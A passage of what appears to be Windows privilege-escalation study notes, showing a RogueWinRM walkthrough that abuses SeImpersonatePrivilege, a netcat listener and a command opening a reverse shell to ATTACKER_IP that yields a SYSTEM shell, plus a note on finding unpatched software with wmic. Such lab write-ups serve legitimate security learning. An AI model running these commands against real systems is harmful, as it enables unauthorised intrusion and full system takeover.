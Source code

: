SeChangeNotifyPrivilege Bypass traverse checking Enabled

SeImpersonatePrivilege Impersonate a client after authentication Enabled

SeCreateGlobalPrivilege Create global objects Enabled

SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

**2. Upload "RogueWinRM" exploit to target.**

* Already uploaded to C:\tools folder.

**3. Start Netcat Listener to receive reverse shell.**

nc -lvnp 4442

**4. Use web shell to trigger RogueWinRM exploit.**

* Exploit may take up to two minutes to work as BITS service stops after two minutes of starting.

c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER\_IP 4442"

* \-p specifies executable to be run.
  * nc64.exe
* \-a used to pass arguements to executable.
  * \-e cmd.exe ATTACKER\_IP 4442
  * Establish a reverse shell against attacker machine.

**5. Shell created with SYSTEM privileges.**

Connection from 10.10.33.51 49899 received!

Microsoft Windows \[Version 10.0.17763.1821]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami

nt authority\system

### **Abusing Vulnerable Software** <a href="#wbnow9jrvt0g" id="wbnow9jrvt0g"></a>

### **Unpatched Software** <a href="#id-1kjxbbeqk94r" id="id-1kjxbbeqk94r"></a>

* Can present various privilege escalation opportunities.
* wmic lists installed software.
  * May not return all installed programs.

wmic product get name.version,vendor

* Search for existing exploits on installed software.
  * [exploit-db](https://www.exploit-db.com/).
  * [packet storm](https://packetstormsecurity.com/).

#### **Druva inSync 6.6.3 Case Study** <a href="#vdby35k905ab" id="vdby35k905ab"></a>

